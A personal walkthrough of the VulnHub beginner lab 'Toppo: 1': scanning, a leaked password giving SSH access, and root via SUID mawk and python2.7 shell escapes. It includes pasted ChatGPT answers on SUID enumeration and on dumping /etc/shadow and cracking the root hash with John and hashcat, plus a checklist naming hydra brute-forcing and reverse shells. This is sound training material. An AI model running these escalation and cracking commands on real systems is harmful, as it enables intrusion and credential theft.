

### [VulnHub - Machine Information Page - Toppo 1](https://www.vulnhub.com/entry/toppo-1,245/)

### [YouTube - # Toppo: 1 || VulnHub Complete Walkthrough](https://www.youtube.com/watch?v=MCpsm0ZwPp4)

---

- **Name**: Toppo: 1
- **Date release**: 12 Jul 2018
- **Author**: [Hadi Mene](https://www.vulnhub.com/author/hadi-mene,555/)
- **Series**: [Toppo](https://www.vulnhub.com/series/toppo,166/)

### Download

Please remember that VulnHub is a free community resource so we are unable to check the machines that are provided to us. Before you download, please read our FAQs sections dealing with the dangers of running unknown VMs and our suggestions for “protecting yourself and your network. If you understand the risks, please download!

- **Toppo.zip** (Size: 558 MB)
- **Download**: [https://mega.nz/#!XAwEWS4a!IOlu10Z8zvyhjcPMNK6GLuHjCLb5IUMaOOccAf2-uXY](https://mega.nz/#!XAwEWS4a!IOlu10Z8zvyhjcPMNK6GLuHjCLb5IUMaOOccAf2-uXY)
- **Download (Mirror)**: [https://download.vulnhub.com/toppo/Toppo.zip](https://download.vulnhub.com/toppo/Toppo.zip)

### Description

The Machine isn't hard to own and don't require advanced exploitation .

Level : Beginner
DHCP : activated

Inside the zip you will find a vmdk file , and I think you will be able to use it with any usual virtualization software ( tested with Virtualbox) . If you have any question : my twitter is @h4d3sw0rm

Happy Hacking!

### File Information

- **Filename**: Toppo.zip
- **File size**: 558 MB
- **MD5**: D6FDABBB6EE4260BDA9DB7FF438A4B9C
- **SHA1**: 0A41156E81DCB5631FDC194CAAF1B90773225508

### Virtual Machine

- **Format**: Virtual Machine (Virtualbox - VDI)
- **Operating System**: Linux

### Networking

- **DHCP service**: Enabled
- **IP address**: Automatically assign


---


# Installation 🔌💻🖥ï¸ğŸ›œğŸ’¾ğŸ”Œ

When you unzip your file, you will get a `toppo.vmdk`, this is basically just the disk of a virtual computer, so you have to create the machine yourself in VirtualBox and then afterward add the disk to your machine before we can begin.

So let's create a new Virtual Machine


In the **Hard Disk** section, choose `Use an Existing Virtual Hard Drive File`, then select our `toppo.vmdk`

Accept our settings

Now Go into to the network adapters and change it from `NAT` to `Host-Only Adapter` (Make sure you use the correct virtual adapter on both machines, they should match).

We should be good to go now!


Alright.... I thought it was a good idea to finally clean my long list of virtual adapters for Host-Only, I deleted every single one of them, and created a new one.
### The IP address of the taget is 192.168.56.3

### The IP address of Kali Linux is 192.168.56.52

Let's complete this challenge before I have to shave my beard!

---
---

# Enumeration

## netdiscover

We start out with 
`sudo netdiscover -i eth1`

We can also do it much faster, since we know the range with 
`sudo netdiscover -i eth1 -r 192.168.56.0/24`


## nmap
nmap -sC -sV 192.168.56.3

```bash
# netdiscover  
 3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.56.2    08:00:27:69:cb:89      1      60  PCS Systemtechnik GmbH                            
 192.168.56.3    08:00:27:3e:1b:b3      1      60  PCS Systemtechnik GmbH
 192.168.56.121  0a:00:27:00:00:0c      1      60  Unknown vendor    

# nmap
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 192.168.56.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-18 23:04 CEST
Nmap scan report for 192.168.56.3
Host is up (0.0082s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|   256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
|_  256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)                                       
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Clean Blog - Start Bootstrap Theme
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          39846/udp6  status
|   100024  1          46829/tcp   status
|   100024  1          48734/tcp6  status
|_  100024  1          54350/udp   status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.05 seconds

# So far we can confirm Port 22, 80, 111

# nmap -sC -sV 192.168.56.3 -p- (For all ports, better safe than sorry)
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 192.168.56.3 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-18 23:10 CEST
Nmap scan report for 192.168.56.3
Host is up (0.0014s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|   256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
|_  256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          39846/udp6  status
|   100024  1          46829/tcp   status
|   100024  1          48734/tcp6  status
|_  100024  1          54350/udp   status
46829/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.02 seconds

# Look at that! Something on port 46829! 
```


Alright we can confirm that the following ports are available
- 22/TCP - SSH - OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
- 80/TCP - HTTP - Apache httpd 2.4.10 ((Debian))
- 111/TCP - rpcbind 2-4 (RPC #100000)
- 46829/tcp - (RPC #100024) - *This is only visible when using -p- searching for all ports*

### *As a instinct reaction, let's check the website! There might be a clue* ğŸ˜


Fancy website!

What information do we get from **Wappalyzer**?


A fast look into the source code of the page didn't really reveal any clues or hidden comments/pages... There is definitely no ``robots.txt``.
I guess the natural next step is just to use GoBuster

## GoBuster

We will use the command `gobuster dir -u http://192.168.56.3/ -w /usr/share/wordlists/dirb/common.txt`

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.56.3/ -w /usr/share/wordlists/dirb/common.txt                                                        
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.3/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 296]
/.hta                 (Status: 403) [Size: 291]
/.htpasswd            (Status: 403) [Size: 296]
/admin                (Status: 301) [Size: 312] [--> http://192.168.56.3/admin/]
/css                  (Status: 301) [Size: 310] [--> http://192.168.56.3/css/]
/img                  (Status: 301) [Size: 310] [--> http://192.168.56.3/img/]
/index.html           (Status: 200) [Size: 6437]
/js                   (Status: 301) [Size: 309] [--> http://192.168.56.3/js/]
/LICENSE              (Status: 200) [Size: 1093]
/mail                 (Status: 301) [Size: 311] [--> http://192.168.56.3/mail/]
/manual               (Status: 301) [Size: 313] [--> http://192.168.56.3/manual/]
/server-status        (Status: 403) [Size: 300]
/vendor               (Status: 301) [Size: 313] [--> http://192.168.56.3/vendor/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

Plenty of hidden directories on this server, the one called admin seems the most obvious to check out!

Interesting! This page has a ``notes.txt`` for us to read!


```txt
# Content of notes.txt
Note to myself :

I need to change my password :/ 12345ted123 is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .
```

I guess this is the current password for the SSH connection, we might just need to bruteforce the username or take a clever guess.


---
---

# Foothold 🦶

## SSH

The password ``12345ted123`` contains a name in itself just like `12345Danielkaas123`

So let's try the SSH connection with the following command:
 `ssh ted@192.168.56.3`


```powershell
┌──(kali㉿kali)-[~]
└─$ ssh ted@192.168.56.3
The authenticity of host '192.168.56.3 (192.168.56.3)' can't be established.
ED25519 key fingerprint is SHA256:vJgmhqKOmHq0Mb0plSTyOdzw6GenPEkZkch+PIVozzw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.3' (ED25519) to the list of known hosts.
ted@192.168.56.3's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Apr 15 12:33:00 2018 from 192.168.0.29
ted@Toppo:~$ whoami
ted
ted@Toppo:~$ uname
Linux
ted@Toppo:~$ uname -a
Linux Toppo 3.16.0-4-586 #1 Debian 3.16.51-3 (2017-12-13) i686 GNU/Linux
ted@Toppo:~$ 

# find
ted@Toppo:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/sbin/exim4
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/python2.7
/usr/bin/chsh
/usr/bin/at
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/procmail
/usr/bin/passwd
/bin/su
/bin/umount
/bin/mount
ted@Toppo:~$ 

```


### Deep Dive Explanation - Find ğŸ”
For all of us I think it would be good idea to take a break from the challenge and dig deeper what exactly we do with this find command called
 `find / -perm -u=s -type f 2>/dev/null`

I will output some text from ChatGPT without shamelessly.

#### ChatGPT explanation - find

That command is a classic when looking for privilege escalation vectors. Here is a clean, line by line explanation and useful followups so you know what to do with the results.

---
#### What the command does

```bash
find / -perm -u=s -type f 2>/dev/null
```

- `find /`  
    Search recursively from the root directory `/`, so the whole filesystem is scanned.
- `-perm -u=s`  
    Match files that have the user suid bit set. A file with the suid bit set runs with the file owner user id when executed. Common owners are root, so suid files are potential privilege escalation vectors.
- `-type f`  
    Only show regular files. That filters out directories, device nodes and sockets.
- `2>/dev/null`  
    Redirect standard error (file descriptor 2) to `/dev/null` so permission denied and other error messages are hidden from the output. That makes the output cleaner.
    

---

#### Why people run this during pentests

SUID programs owned by root can be abused if they have insecure behavior, shell escapes, writable config files, or other bugs. Finding these files helps identify candidates for privilege escalation.

Examples of well known suid programs

- `/usr/bin/sudo` (usually setuid root)
- `/bin/ping` (sometimes setuid)
- `/usr/bin/passwd` (setuid root to update /etc/shadow)  
    Some of these are harmless. Others can be abused depending on version, environment, or misconfiguration.
    

---

#### Faster or more specific variants

Scanning the entire filesystem can be slow. Restrict to likely places:

```bash
find /usr/bin /usr/local/bin /bin /sbin /usr/sbin /opt -perm -u=s -type f 2>/dev/null
```

Find both SUID and SGID files:

```bash
find / -perm /6000 -type f 2>/dev/null
```

Note: `/6000` means any of the SUID or SGID bits set.

Explicit SUID and SGID forms:

```bash
# SUID only
find / -perm -4000 -type f 2>/dev/null

# SGID only
find / -perm -2000 -type f 2>/dev/null
```

---

#### How to inspect a candidate file

If you find an interesting binary, check ownership and permissions:

```bash
ls -l /path/to/file
# example output:
# -rwsr-xr-x 1 root root 123K Apr  1  2024 /usr/bin/someprog
```

- `rws` in the owner bits indicates the suid bit is set.
    

Check for file capabilities as well:

```bash
getcap /path/to/file 2>/dev/null
```

A file with capabilities may be dangerous even without suid.

Run strings, ldd, or check version to assess risk:

```bash
strings /path/to/file | less
ldd /path/to/file
/path/to/file --version
```

Be careful: do not execute suspicious binaries as a non-privileged user without understanding them.

---

#### Quick useful checks to run next

```bash
# show SUID files with owner and rightmost date, sorted
find / -perm -4000 -type f 2>/dev/null -exec ls -ld {} \; | sort

# show SUID and SGID
find / -perm /6000 -type f 2>/dev/null -exec ls -ld {} \; | sort

# check capabilities across common bins
for f in /bin/* /usr/bin/* /usr/local/bin/*; do getcap "$f" 2>/dev/null; done
```

---

#### Safety and etiquette

- Redirecting stderr hides permission denied noise, but you might miss errors. If you want to debug why some directories were skipped, run without `2>/dev/null`.
- Do not upload or copy suspicious files to your host. Treat them as untrusted.
- Use `sudo -l` and `sudo -V` to see allowed sudo commands for your current user. Sometimes sudo misconfigurations are the easiest escalation path.
    

---

#### ChatGPT explanation - about the results from find

Nice output. Good candidates in that list, and you are asking the exact right question: which of these are worth digging into further. I will walk through the interesting entries, what each one could mean for privilege escalation, and safe next commands you can run to gather more information. I will not give exploit steps, but I will point you to the things that matter so you can investigate responsibly.

##### Quick read on the list you posted

Files worth extra attention

* `/usr/bin/python2.7`
  A suid Python interpreter is unusual and potentially dangerous. If Python runs setuid, it may allow arbitrary code execution as the file owner. This is the highest-priority item on your list to inspect.
* `/usr/lib/dbus-1.0/dbus-daemon-launch-helper`
  This helper is often setuid to allow starting dbus-daemons. Misconfigurations or old versions have led to local escalation in the past.
* `/usr/sbin/exim4`
  Mail servers have had privilege escalation bugs historically. Version checks and configuration checks matter.
* `/sbin/mount.nfs`, `/bin/mount`, `/bin/umount`
  Mount helpers can sometimes be abused to trick the system into executing code or to mount devices with crafted filesystem features. Check mount options, setuid status, and whether any user-writable mount points exist.
* `/usr/lib/eject/dmcrypt-get-device`
  Related to dm-crypt. Could be interesting if it does privileged work with device files.
* `gpasswd`, `newgrp`, `chsh`, `chfn`, `passwd`, `su`, `at`, `procmail`, `mawk`
  Many of these are normal system helper binaries. Some have historically had exploitable behaviors with crafted input, writable config files, or environment variable misuse. `mawk` being setuid is notable because awk implementations running as root are sometimes exploitable via script interpretation.

Files that are usually benign but still worth checking

* `passwd`, `su`, `mount` are standard SUID utilities. They are expected, but you still check them for odd versions or local config files that are writable.

##### Safe commands to run now and what to look for

Run these to gather facts. Each command is informational and non-destructive.

1. Check ownership and exact permissions

```bash
ls -l /usr/bin/python2.7 /usr/lib/dbus-1.0/dbus-daemon-launch-helper /usr/sbin/exim4 /sbin/mount.nfs /bin/mount /bin/umount /usr/lib/eject/dmcrypt-get-device /usr/bin/mawk
```

Look for `rws` in the permission bits and the owner (usually `root`).

2. See file types and whether they are scripts or ELF binaries

```bash
file /usr/bin/python2.7
```

If `file` reports a script or ELF binary, that guides investigation. Scripts with setuid are weird and often misconfigured.

3. Check capabilities

```bash
getcap $(which python2.7) 2>/dev/null || true
getcap /usr/sbin/exim4 2>/dev/null || true
```

Files may have Linux capabilities instead of classical suid bits.

4. Check linked libraries (for binaries)

```bash
ldd /usr/bin/python2.7 2>/dev/null || true
```

This helps identify dynamic dependencies and might hint at known vulnerable libs.

5. Quick strings search for suspicious embedded commands

```bash
strings /usr/bin/python2.7 | head -n 50
```

You are looking for obvious embedded shell paths like `/bin/sh` or suspicious hardcoded paths. This is reconnaissance only.

6. Confirm the exact python binary invoked

```bash
which python2.7
stat -c '%n %U %G %A' $(which python2.7)
```

This confirms the binary path and owner/permissions.

7. Check sudo rights and cron jobs for the current user

```bash
sudo -l 2>/dev/null || true
crontab -l 2>/dev/null || true
ls -la /etc/cron.* /etc/crontab 2>/dev/null
```

Sometimes escalation comes from allowed sudo commands or writable cron job scripts.

8. Find world-writable locations and SUID files in common directories

```bash
find /tmp /var/tmp /dev/shm -maxdepth 1 -type d -writable -ls 2>/dev/null
find /usr/bin /bin /usr/sbin /sbin -perm /4000 -type f -ls 2>/dev/null
```

World-writable directories or writable files near SUID binaries matter.

##### How to prioritize

1. Inspect `/usr/bin/python2.7` first. If it is truly setuid and owned by root, treat it as high priority. Note the `file`, `ls -l` and `getcap` outputs.
2. Check `dbus-daemon-launch-helper` and `exim4` for version info and configs. If `exim4` is present, `exim -bV` or checking `exim4` version info (non-destructive) helps.
3. Look for writable config files or directories that those SUID programs rely on. A SUID binary plus a writable config file is a classic escalation vector.
4. Check for allowed `sudo` commands. If you can run any command as root via `sudo`, that is often the quickest clean path.

##### What I will not do here

I will not provide step-by-step exploitation commands to convert these findings into a root shell. If you are running an authorized assessment or a learning exercise, you can use the reconnaissance steps above to understand the surface area. If you want me to help further, paste the outputs of the `ls -l`, `file`, `getcap`, and `stat` commands for the most interesting binaries (for example python2.7 and dbus helper), and I will explain what those outputs mean and what safe next checks to run.

Would you like me to analyze the `ls -l` and `file` output for `/usr/bin/python2.7` and `/usr/lib/dbus-1.0/dbus-daemon-launch-helper` first?


---
---

# Privilege Escalation

Alright there is at least two methods to gain root access

```
ted@Toppo:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/sbin/exim4
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/python2.7
/usr/bin/chsh
/usr/bin/at
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/procmail
/usr/bin/passwd
/bin/su
/bin/umount
/bin/mount
ted@Toppo:~$
```

- /usr/bin/python2.7
- /usr/bin/mawk
	- What is this? Mawk is an interpreter for the AWK programming language, which is used for text processing and data manipulation. It is known for being fast and efficient compared to other AWK interpreters.


### Method 1 - mawk

```bash
# mawk 'BEGIN {system("/bin/sh")}'
ted@Toppo:~$ mawk 'BEGIN {system("/bin/sh")}'                                                                  
# ls                                                                                                           
# cat root.txt                                                                                                 
cat: root.txt: No such file or directory                                                                       
# cat /root/flag.txt                                                                                           
_________                                                                                                      
|  _   _  |                                                                                                    
|_/ | | \_|.--.   _ .--.   _ .--.    .--.                                                                      
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \                                                                    
   _| |_ | \__. | | \__/ | | \__/ || \__. | 
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                 [__|     [__|              


Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}

```


### Method 2 - Python 2.7

```bash
# python2.7 -c "import pty;pty.spawn('/bin/sh')"
ted@Toppo:~$ python2.7 -c "import pty;pty.spawn('/bin/sh')"
# whoami
root
# id
uid=1000(ted) gid=1000(ted) euid=0(root) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
# cat root/flag.txt
cat: root/flag.txt: No such file or directory
# cat /root/flag.txt
_________                                  
|  _   _  |                                 
|_/ | | \_|.--.   _ .--.   _ .--.    .--.   
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \ 
   _| |_ | \__. | | \__/ | | \__/ || \__. | 
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                 [__|     [__|              

Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}
```


---
---

# BONUS - JUST TESTING


## Can I somehow extract the password for root user?

Short answer: yes. Since you already have a root shell you can read or change the root account password directly. Do this only on machines you are explicitly allowed to test.

Below are the immediate, safe commands and explanations.

### Read the root password hash

On Linux the password hashes live in `/etc/shadow`. Only root can read that file.

* To view the whole file (you are root, so this will work):

```bash
cat /etc/shadow
```

* To print only the root account hash:

```bash
awk -F: '/^root/{print $2}' /etc/shadow
```

The output will look like `$id$salt$hashedpassword`. The `id` indicates the hash algorithm used, for example `1` = MD5, `6` = SHA512.

### Change the root password immediately

If your goal is to set a known password, you can change it directly:

* Interactively:

```bash
passwd root
```

You will be prompted to enter a new password.

* Non-interactively (useful in scripts):

```bash
echo 'root:NewStrongPassword' | chpasswd
```

Replace `NewStrongPassword` with your chosen password.

### If you want to obtain the plaintext rather than set a new password

Password hashes cannot be reversed directly. To recover a plaintext password you would need to crack the hash using tools like John the Ripper or hashcat. High level steps:

1. Export the root hash into a file.
2. Feed that file to a cracking tool with an appropriate wordlist and rules.

I will not post step-by-step cracking commands here unless you confirm this is your own, authorized lab VM and you want the tutorial. Cracking can be time consuming and may be misused if done on systems you do not own.

### Notes and security/ethics

* Only perform these actions on systems you own or are explicitly authorized to test. Doing this on systems without permission is illegal.
* If this is a practice VM, consider taking a snapshot before you change anything so you can revert.
* If you change the real root password on a shared or production system, notify the owner and follow responsible disclosure or remediation procedures.

If you confirm this is your own Toppo VM and you want the exact commands for exporting the hash and using John the Ripper to attempt cracking, I can show that next.


```bash
# Some bonus commands... Just Testing


# id
uid=1000(ted) gid=1000(ted) euid=0(root) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
# whoami
root

# 
# cat /etc/shadow
root:$6$5UK1sFDk$sf3zXJZ3pwGbvxaQ/1zjaT0iyvw36oltl8DhjTq9Bym0uf2UHdDdRU4KTzCkqqsmdS2cFz.MIgHS/bYsXmBjI0:17636:0:99999:7:::
daemon:*:17636:0:99999:7:::
bin:*:17636:0:99999:7:::
sys:*:17636:0:99999:7:::
sync:*:17636:0:99999:7:::
games:*:17636:0:99999:7:::
man:*:17636:0:99999:7:::
lp:*:17636:0:99999:7:::
mail:*:17636:0:99999:7:::
news:*:17636:0:99999:7:::
uucp:*:17636:0:99999:7:::
proxy:*:17636:0:99999:7:::
www-data:*:17636:0:99999:7:::
backup:*:17636:0:99999:7:::
list:*:17636:0:99999:7:::
irc:*:17636:0:99999:7:::
gnats:*:17636:0:99999:7:::
nobody:*:17636:0:99999:7:::
systemd-timesync:*:17636:0:99999:7:::
systemd-network:*:17636:0:99999:7:::
systemd-resolve:*:17636:0:99999:7:::
systemd-bus-proxy:*:17636:0:99999:7:::
Debian-exim:!:17636:0:99999:7:::
messagebus:*:17636:0:99999:7:::
statd:*:17636:0:99999:7:::
avahi-autoipd:*:17636:0:99999:7:::
sshd:*:17636:0:99999:7:::
ted:$6$U2/Cun.m$A2eC7LBIW6D0eM1BPJWz6rSAGcnmfR/OC4MkPmEIZbuANEaCuNK1KPedXRhkMZbxkek7NX0lfqFVWl.tyN.lL0:17636:0:99999:7:::

# Only getting the hash for the root
# awk -F: '/^root/{print $2}' /etc/shadow
$6$5UK1sFDk$sf3zXJZ3pwGbvxaQ/1zjaT0iyvw36oltl8DhjTq9Bym0uf2UHdDdRU4KTzCkqqsmdS2cFz.MIgHS/bYsXmBjI0

```

## Can we crack the password for root?

```bash
# put the hash in a file John-friendly
cat > root_hash.txt <<'EOF'
root:$6$5UK1sFDk$sf3zXJZ3pwGbvxaQ/1zjaT0iyvw36oltl8DhjTq9Bym0uf2UHdDdRU4KTzCkqqsmdS2cFz.MIgHS/bYsXmBjI0
EOF

```

Nice. Since you have the hash and you confirmed this is your own lab VM, here are safe, practical steps you can run on Kali to try cracking it. I will explain what each command does and what to expect.

Important notes first

* The prefix `$6$` means this is a SHA512-crypt hash (salted, iterated).
* Cracking may succeed with wordlists and rules, or it may fail if the password is strong. SHA512-crypt is intentionally slow, so cracking can take time.
* Only run this against systems you own or are explicitly authorized to test.

## Prepare the hash file

Create a file containing the hash in a format John and hashcat accept.

John likes the shadow-like format `username:hash`. Hashcat wants the raw hash only, but it also accepts the hash file with only the hash.

On Kali, run:

```bash
# put the hash in a file John-friendly
cat > root_hash.txt <<'EOF'
root:$6$5UK1sFDk$sf3zXJZ3pwGbvxaQ/1zjaT0iyvw36oltl8DhjTq9Bym0uf2UHdDdRU4KTzCkqqsmdS2cFz.MIgHS/bYsXmBjI0
EOF
```

## Using John the Ripper (easy starter)

John is CPU-based but very user friendly with rules.

1. If you do not have rockyou unzipped:

```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```

2. Run John with a wordlist and rules:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --rules --format=sha512crypt root_hash.txt
```

* `--rules` applies common mangling rules to the words in the list.
* `--format=sha512crypt` forces John to treat it as SHA512-crypt.

3. Check status or view cracked results:

```bash
john --status
john --show root_hash.txt
```

4. If john finishes or you interrupt, `john --show` prints any cracked plaintexts.

If the wordlist attack fails, try incremental (brute force):

```bash
john --incremental --format=sha512crypt root_hash.txt
```

Note: incremental is slow and may take a very long time.

## Using hashcat (GPU or CPU)

Hashcat is faster on GPUs. Mode for SHA512-crypt is 1800.

1. Create a file containing only the hash (hashcat prefers raw hashes):

```bash
# extract just the hash part for hashcat, include full $6$... string
awk -F: '{print $2}' root_hash.txt > hashcat_hash.txt
```

2. Run hashcat with rockyou:

```bash
# GPU preferred
hashcat -m 1800 hashcat_hash.txt /usr/share/wordlists/rockyou.txt -a 0

# If you only have CPU hashcat (slower)
hashcat -m 1800 hashcat_hash.txt /usr/share/wordlists/rockyou.txt -a 0 --force
```

3. View cracked password:

```bash
hashcat -m 1800 --show hashcat_hash.txt
```

4. Try rules to expand guesses:

```bash
hashcat -m 1800 hashcat_hash.txt /usr/share/wordlists/rockyou.txt -a 0 -r /usr/share/hashcat/rules/best64.rule
```

## About salts and speed

* The salt here is `5UK1sFDk`. Salt prevents using a single precomputed table for many hashes.
* SHA512-crypt has iteration rounds, making it deliberately slower than raw SHA512. Expect cracking to be slower than unsalted hashes.

## If cracking fails

* Try additional wordlists, like `SecLists` or custom lists based on target context.
* Use rule-based mutations before moving to brute force. Brute forcing long complex passwords is often infeasible on typical hardware.

## Ethics reminder

You are allowed to crack this hash since it is your lab VM. Do not attempt these techniques on accounts or systems you do not own or have explicit permission to test.

If you want, I can:

* Suggest specific wordlists and rule combinations to try next, or
* Help you run one of the above commands now and interpret the output you get. Which option do you want?


---
---

# VulnHub Pentest Notes - [Machine Name]  
🔠**Target IP:** `192.168.56.3`  
🖥 **OS:** Linux  
📅 **Date:** 2025-10-19  

---
## Resources & References  
📌 [VulnHub Link](https://www.vulnhub.com/entry/toppo-1,245/)  
📌 [YouTube Walkthrough](https://www.youtube.com/watch?v=MCpsm0ZwPp4)  

---
# ğŸ•µï¸ Enumeration  

### 🛜 Network Discovery  
- [ ] `sudo netdiscover -i eth1`
- [ ] `netdiscover -r <target-range>`  
- [ ] `arp-scan -l`  

### 🌠Port Scanning  
- [ ] `nmap -sC -sV <IP>` (Basic Scan)
- [ ] `nmap -sC -sV <IP> -p-` (For all ports)
- [ ] `nmap -sC -sV -p- -oN nmap_scan.txt <IP>`
- [ ] `rustscan -a <IP> -- -A -oN rustscan.txt`  

### ğŸ•¸ï¸ Web Enumeration  
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt` (Check for any directories)
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt`  (Directories with file extensions)
- [ ] `nikto -h http://<IP>/`  
- [ ] `hydra -l <Login Name> -P /usr/share/wordlists/rockyou.txt ftp://<IP>`

### 🔠Credentials & SMB/NFS  
- [ ] `enum4linux -a <IP>`  
- [ ] `smbclient -L //<IP> -N`  
- [ ] `showmount -e <IP>`  

---
# 🦶 Initial Foothold  
- [ ] Identify possible exploits  
	- [ ] whatweb or Wappalyzer
- [ ] Try default credentials 🤡  
- [ ] Try Linpeas.sh 🫛
- [ ] Use Metasploit/Manual Exploitation  
- [ ] Upload and use a reverse shell  
